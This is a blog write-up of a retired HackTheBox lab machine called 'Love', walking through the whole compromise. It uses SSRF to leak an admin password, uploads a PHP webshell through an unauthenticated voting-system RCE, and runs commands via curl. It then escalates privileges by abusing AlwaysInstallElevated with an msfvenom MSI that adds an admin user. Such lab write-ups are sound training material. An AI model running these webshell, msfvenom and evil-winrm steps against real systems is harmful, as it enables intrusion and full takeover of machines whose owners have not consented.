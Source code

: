 Title:HTB: Love
Date: MM-16-2021 09:20
category:security
tags:security, boot2root, HTB, windows, php, AlwaysInstallElevated
meta:security, boot2root, HTB, windows, php, AlwaysInstallElevated

<img class="align-left" src="/media/2021.xx/love_card.png" alt="Love card" width="262">

This is a writeup about a retired HacktheBox machine:
[Love](https://www.hackthebox.eu/home/machines/profile/344) published on
May 1 2021 by
[pwnmeow](https://www.hackthebox.eu/home/users/profile/157669)
This box is classified as an easy machine. This box implies a SSRF, some php
file and an AlwaysInstallElevated privilege on a Windows box.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

We start with an nmap scan. As always with Windows box a lot of ports are open.
We note the few HTTP services (80, 443, 5000).

    :::text
    # Nmap 7.91 scan initiated Thu May 20 09:46:35 2021 as: nmap -sSV -p- -A -oN notes.md 10.129.143.132
    Nmap scan report for 10.129.143.132
    Host is up (0.012s latency).
    Not shown: 65517 closed ports
    PORT      STATE SERVICE      VERSION
    80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
    | http-cookie-flags:
    |   /:
    |     PHPSESSID:
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: Voting System using PHP
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: 403 Forbidden
    | ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
    | Not valid before: 2021-01-18T14:00:16
    |_Not valid after:  2022-01-18T14:00:16
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn:
    |_  http/1.1
    445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
    3306/tcp  open  mysql?
    | fingerprint-strings:
    |   DNSStatusRequestTCP, SIPOptions:
    |_    Host '10.10.14.70' is not allowed to connect to this MariaDB server
    5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: 403 Forbidden
    5040/tcp  open  unknown
    5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    | ssl-cert: Subject: commonName=LOVE
    | Subject Alternative Name: DNS:LOVE, DNS:Love
    | Not valid before: 2021-04-11T14:39:19
    |_Not valid after:  2024-04-10T14:39:19
    |_ssl-date: 2021-05-20T14:11:47+00:00; +21m33s from scanner time.
    | tls-alpn:
    |_  http/1.1
    47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc        Microsoft Windows RPC
    49665/tcp open  msrpc        Microsoft Windows RPC
    49666/tcp open  msrpc        Microsoft Windows RPC
    49667/tcp open  msrpc        Microsoft Windows RPC
    49668/tcp open  msrpc        Microsoft Windows RPC
    49669/tcp open  msrpc        Microsoft Windows RPC
    49670/tcp open  msrpc        Microsoft Windows RPC
    <SNIP>

## Web

On the port 80 we have a login form for a PHP voting system.

On the port 443 we have a FileScanner with a demo. As pointed out by the `nmap` scan and the SSL
certificate we need to use another domain `staging.love.htb`

![love ssl certificate](/media/2021.xx/love_01.png)

Here we can input an URL to get it "scanned". After a few trial with our files (and a simple python server)
scanned means echoed.

Looking back at our `nmap` scan we can see that we are forbidden to access the webpage on port 5000.
We use the scanner to display it. It contains the password for the voting system `@LoveIsInTheAir!!!!`.

![admin password for the voting system](/media/2021.xx/love_02.png)

We connect to the voting system. There is a few vulnerabilities (one of them even unauthenticated Oo)
Using the [(unauthenticated) RCE exploit](https://www.exploit-db.com/exploits/49445) we can get a
webshell by uploading `/usr/share/webshells/php/simple-backdoor.php` as an image for a candidate (after
adding a position). We can then execute Windows command on the OS.

    :::text
    └─$ curl 'http://love.htb/images/simple-backdoor.php?cmd=whoami%20/all'
    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <pre>
    USER INFORMATION
    ----------------

    User Name   SID
    =========== =============================================
    love\phoebe S-1-5-21-2955427858-187959437-2037071653-1002


    GROUP INFORMATION
    -----------------

    Group Name                             Type             SID          Attributes
    ====================================== ================ ============ ==================================================
    Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
    BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
    CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
    LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
    Mandatory Label\Medium Mandatory Level Label            S-1-16-8192


    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                          State
    ============================= ==================================== ========
    SeShutdownPrivilege           Shut down the system                 Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
    SeUndockPrivilege             Remove computer from docking station Disabled
    SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
    SeTimeZonePrivilege           Change the time zone                 Disabled


We can grab the user flag on the way:

    :::text
    └─$ curl 'http://love.htb/images/simple-backdoor.php?cmd=type%20..\..\..\..\Users\Phoebe\Desktop\user.txt'
    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <pre>eb7553538ae21eec5e4d1d444beaf541
    </pre>


# Root

We use the image upload function to put [WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) on the box
and we run it using our webshell. The output is quit huge (2344 lines).


    :::text
    └─$ curl 'http://love.htb/images/simple-backdoor.php?cmd=winPEASx64.exe' >> winpeas_res
    └─$ wc -l winpeas_res
    2344 winpeas_res

We see that the AlwaysInstallElevated registry keys are set to one both in HKLM
and HKCU.

    :::text
    [+] Checking AlwaysInstallElevated
    [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
      AlwaysInstallElevated set to 1 in HKLM!
      AlwaysInstallElevated set to 1 in HKCU!

We use `msfvenom` to generate an msi file that will "install" a new admin user
with a know password.

    :::text
    └─$ #msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi

We then connect to the box using
[evil-winrm](https://github.com/Hackplayers/evil-winrm) and grab the root flag.

    :::text
    └─$ evil-winrm -i love.htb -u rottenadmin -p 'P@ssword123!'

    Evil-WinRM shell v2.4

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\rottenadmin\Documents> type ..\..\Administrator\Desktop\root.txt
    af2d13b1f523eed72cddf44b166c4601

# Wrapping up

Overall a nice box with a few rabbit hole (very OSCP like). I banged my head a
few time as I did not notice the port 5000 403. Also the CVE used to get the RCE
is completely unauthenticated so a simple Google search "php voting system
exploit" would have return the same exploit. Also the exploit date (May 7) seems to be
posterior to the box publication (May 1) which is odd and maybe not the intended
RCE way.

